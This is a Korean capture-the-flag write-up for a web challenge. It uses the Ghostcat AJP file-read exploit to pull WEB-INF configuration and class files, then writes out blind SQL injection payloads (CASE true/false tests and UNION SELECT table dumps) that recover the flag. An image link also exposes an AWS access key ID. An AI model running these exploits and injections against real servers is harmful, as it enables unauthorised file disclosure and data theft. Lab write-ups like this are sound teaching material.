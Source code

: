 # poc

- url : http://ctf.ssat.site:31888/demo/

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled.png)

- error page

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%201.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%201.png)

- URL : [http://ctf.ssat.site:31888/demo/getGochaList?sortName=poke_name&sortFlag=asc](http://ctf.ssat.site:31888/demo/getGochaList?sortName=poke_name&sortFlag=asc)

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%202.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%202.png)

- DirBuster → docs 접근 가능한 경로
- 서버 버전 노출

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%203.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%203.png)

- 8.5.50에 존재하는 ghostcat 취약점이 존재하고  AJP PORT 31811이 열려있는것을 확인

[poc.py](poc%20116b2ba746ea44b9bd0a1c059467fb0d/poc.py)

```bash
python poc.py -p 31811 -f "/WEB-INF/web.xml" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/classes/com/samsung/sctf/MainController.class" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/classes/com/samsung/sctf/gochaMapper.class" 127.0.0.1
python poc.py -p 31811 -f "/WEB-INF/demo/WEB-INF/classes/mapper/gochaMapper.xml" 127.0.0.1

```
![https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6b56cba1-478b-4139-b2c0-dd6635d495f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210722%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210722T134635Z&X-Amz-Expires=86400&X-Amz-Signature=12d56b70b41356175632f65c4c88336498827b1c71e8db1f36d7339462a64994&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6b56cba1-478b-4139-b2c0-dd6635d495f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210722%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210722T134635Z&X-Amz-Expires=86400&X-Amz-Signature=12d56b70b41356175632f65c4c88336498827b1c71e8db1f36d7339462a64994&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)
- <servlet-class>com.samsung.sctf.MainController</servlet-class> 를 참고해서 클래스 파일들을 ghostcat 취약점으로 READ.

- ghost cat PoC 를 통해서 WEB-INF/web.xml을 요청 servlet-class

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%204.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%204.png)

- <servlet-class>com.samsung.sctf.MainController</servlet-class> 바탕으로 클래스 파일을 가져옴
- /WEB-INF/classes/com/samsung/sctf/MainController.class → Decompile

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%205.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%205.png)

- /WEB-INF/classes/com/samsung/sctf/gochaMapper.class → Decompile

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%206.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%206.png)

- /WEB-INF/classes/mapper/gochaMapper.xml 매퍼 확인, sqli 가능 여부 확인

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%207.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%207.png)

- BlindSQL Injection
- True false 확인
    - True

    ```bash
    sortName=(case%20when%20(select%20true)%20then%20BID%20else%20%270%27%20end)&sortFlag=desc
    sortName=(case when (select true) then poke_name else '0' end)&sortFlag=asc

    ```

    ![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%208.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%208.png)

    - false

    ```bash
    sortName=(case%20when%20(select%20false)%20then%20BID%20else%20%270%27%20end)&sortFlag=desc
    sortName=(case when (select false) then poke_name else '0' end)&sortFlag=asc
    ```

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%209.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%209.png)

- index 위치 찾기

```bash
sortName : random())dummy UNION SELECT'A','B','C','D','D','F',now(),'G','H','I' FROM(SELECT 1
sortFlag : NULL
```

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%2010.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%2010.png)

- flag 조회하기

```bash
sortName : random())dummy UNION SELECT DD."index",DD."name",DD.first_attribute,DD.second_attribute,'XX','XX',now(),'XX','XX','XX' FROM( SELECT * from poke_info 
sortFlag : ""
```

![poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%2011.png](poc%20116b2ba746ea44b9bd0a1c059467fb0d/Untitled%2011.png)

```bash
flag = {G0tcH4_Gh0sT_c4t_iS_L3G3ND4Ry_P0k3}
```
